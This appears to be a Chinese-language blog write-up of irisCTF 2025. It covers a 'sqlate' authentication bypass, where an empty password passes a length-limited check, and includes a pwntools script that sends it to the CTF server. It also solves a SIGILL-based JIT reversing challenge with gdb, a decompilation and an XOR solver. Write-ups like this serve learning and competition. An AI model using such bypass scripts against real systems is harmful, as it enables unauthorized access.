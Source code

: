```yaml
---
title: irisCTF 2025
author: Mercury
date: 2025-02-26 21:17:00 +0800
categories: [CTF Writeup]
tags: [pwn, reverse]
description: 第一次釋出自己寫的 writeup 而且又是沒有表現地特別好的比賽，挺可怕的。
---
```


> 偷翻了一下時間發現這還是今天一月初寫的，~~感覺我懶癌已經沒救了~~ 。

## information

Ranking: `242nd / 1063`

CTFtime: [https://ctftime.org/event/2503](https://ctftime.org/event/2503)
> 忘記截圖了 QQ

<hr/>

## sqlate

連著神奇本地sqlite的資料庫，目標函數是 `action_sys()` ，不過會驗權限和 `userId`。

```c
if (!check_permissions(permission_root)) continue;
action_sys();
```

```c
void action_sys() {
  system("/usr/bin/cat flag");
}
```

一開始看到這兩個 `struct` 感覺是heap題。
```c
struct paste {
  int rowId;
  char title[256];
  char language[256];
  char content[256];
};

  

struct user {
  int userId;
  uint64_t flags;
  char username[256];
  char password[256];
};
```
最後發現在登入的時候密碼只會比對和輸入一樣長度的字元。
```c
void action_login() {
  // Currently only admin login
  read_to_buffer("Password?");
  unsigned long length = strlen(line_buffer);
  for (unsigned long i = 0; i < length && i < 512; i++) {
    if (line_buffer[i] != admin_password[i]) {
      printf("Wrong password!\n");
      return;
    }
  }

  strcpy(current_user.username, "admin");
  current_user.userId = 0;
  current_user.flags = 0xFFFFFFFF;
}
```

所以直接輸入一個長度為0的的字串使迴圈的條件一開始就不成立。
```python
from pwn import *

# p = process('./vuln')
p = remote('sqlate.chal.irisc.tf', 10000)

# Login option
p.recvuntil(b'> ')
p.sendline(b'5')

# Enter password length is 0
p.recvuntil(b': ')
p.sendline(b'\x00')

# Hidden option cat flag
p.recvuntil(b'> ')
p.sendline(b'7')
flag = p.recvline()

p.close()

print(flag.decode('utf-8'))
```

<hr/>


## Now this will run on my 486?

`.data` 段有一個放他自己創造的 machine code，他透過 `SIGILL` 時的handler實作 JIT編譯器。用來把他的機器編譯成x86-64。

```c
  local_438.sa_flags = 4;
  local_438.__sigaction_handler.sa_handler = FUN_001012c8;
  sigaction(4,&local_438,(sigaction *)0x0);
```

所以我決定透過動態分析取得編譯後的 machine code。

先在SIGILL 時設置斷點
```sh
(gdb) handle SIGILL stop
```

進到 handler 後直接去到 ret
```sh
(gdb) fin
```

之後繼續執行
```sh
(gdb) ni
```

裡面包含多組 `cmp` 及 `ret` 的邏輯
```assembly
	cmp    eax,edx
	setne  al
	movzx  eax,al
	test   eax,eax
	je     0xe0
	mov    eax,0x2
	ret
```

為了獲得完整的 machine code，在 `ret` 前將 `rip` 改成 `je` 跳到的 address
```sh
(gdb) set $rip = <addr>
```

最後dump出來
```sh
(gdb) dump memory memdump.bin <start_addr> <end_addr>
```

把裡面多餘的 `nop` 刪除掉後用 `objdump` 反組譯成 assembly
```sh
objdump -D -b binary -m i386:x86-64 memdump.bin --no-show-raw-insn -Mintel > o.asm
```

懶得去看組語所以我讓GPT幫我反編譯
```c
#include <stdint.h>
#include <unistd.h>

int main() {
    // 內存準備
    uint32_t *memory = (uint32_t *)(0x1000 + (uintptr_t)r8);

    // 初始化數據
    memory[0] = 0x67616c66;  // "flag" 的 ASCII 值
    memory[1] = 0x203f;      // 設置內存 0x1004

    // 輸出初始數據（類似 write 系統調用）
    write(1, &memory[0], 6);

    // 從輸入讀取數據（類似 read 系統調用）
    read(0, &memory[0x2000], 32);

    // 初始化變數
    uint32_t checksum = 0;
    for (int i = 31; i >= 0; i--) {
        // 從 0x2000 開始計算 checksum
        checksum += (memory[0x2000 + i] & 0xFF);
    }

    // 比較 checksum
    if (checksum != 0xCFF) {
        return 1;
    }

    // 比較存儲的哈希值
    if ((memory[0x2000] ^ 0xBF51B0D7) != 0xCC38C2BE) {
        return 2;
    }
    if ((memory[0x2004] ^ 0x75CC547B) != 0x0EAA2018) {
        return 3;
    }
    if ((memory[0x2008] ^ 0x4F0FD83A) != 0x1078B74D) {
        return 4;
    }
    if ((memory[0x200C] ^ 0xA2117744) != 0xDB631232) {
        return 5;
    }
    if ((memory[0x2010] ^ 0xECD0CEC6) != 0x98A0A199) {
        return 6;
    }
    if ((memory[0x2014] ^ 0x2E19F9FA) != 0x42789493) {
        return 7;
    }
    if ((memory[0x2018] ^ 0x32EA83D9) != 0x5685E086) {
        return 8;
    }
    if ((memory[0x201C] ^ 0xE5EB61E0) != 0x98CA4085) {
        return 9;
    }

    return 0;
}
```

之後透過 `xor` 的特性 `a ^ b = c, b ^ c = a` ，算出了原本的值
```python
# 已知值的計算
hash_values = [
    (0xBF51B0D7, 0xCC38C2BE),
    (0x75CC547B, 0x0EAA2018),
    (0x4F0FD83A, 0x1078B74D),
    (0xA2117744, 0xDB631232),
    (0xECD0CEC6, 0x98A0A199),
    (0x2E19F9FA, 0x42789493),
    (0x32EA83D9, 0x5685E086),
    (0xE5EB61E0, 0x98CA4085),
]

# 計算前 8 個值
memory = [a ^ b for a, b in hash_values]

# 補充剩餘字節讓校驗和滿足條件
checksum_target = 0xCFF
current_checksum = sum(value & 0xFF for value in memory)
remaining_bytes = checksum_target - current_checksum

# 將剩餘字節填充到輸入
input_data = []
for value in memory:
    input_data += [(value >> (i * 8)) & 0xFF for i in range(4)]
input_data += [remaining_bytes]

# 輸出最終輸入
for i in input_data:
    print(chr(i),end="")
```
